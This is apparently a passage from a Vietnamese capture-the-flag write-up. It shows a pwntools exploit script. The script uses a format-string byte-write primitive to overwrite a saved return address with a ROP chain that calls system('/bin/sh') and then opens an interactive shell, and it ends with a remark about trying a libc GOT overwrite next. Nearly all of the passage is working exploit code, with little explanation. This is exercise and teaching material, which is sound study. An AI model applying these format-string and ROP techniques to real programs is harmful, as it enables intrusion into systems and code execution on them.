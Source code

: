 ```python

def write_byte(addr,b):
    log.info(f"target : 0x{addr:x}")
    if b == 0:
        b = 256
    fmt = f"%{b}c%8$hhn".encode().ljust(16,b"\x01") + p64(addr)
    assert len(fmt) == 24
    return fmt
pl = p64(POP_RDI) + p64(bin_sh) + p64(ret) +p64(system)

input()

for i, c in enumerate(pl):
    p.sendlineafter(b'>> ',b'2')
    payload1 = write_byte(saved_rip+i,c)
    p.sendlineafter(b'>> ',payload1)

p.sendlineafter(b'>> ',b'4')



p.interactive()
```

![build](/assets/images/build_rip.png)

- lí do mình làm lại bài này là nó đề cập đến overwrite ```got``` của libc , vậy ta sẽ cùng làm theo cách đó thử 
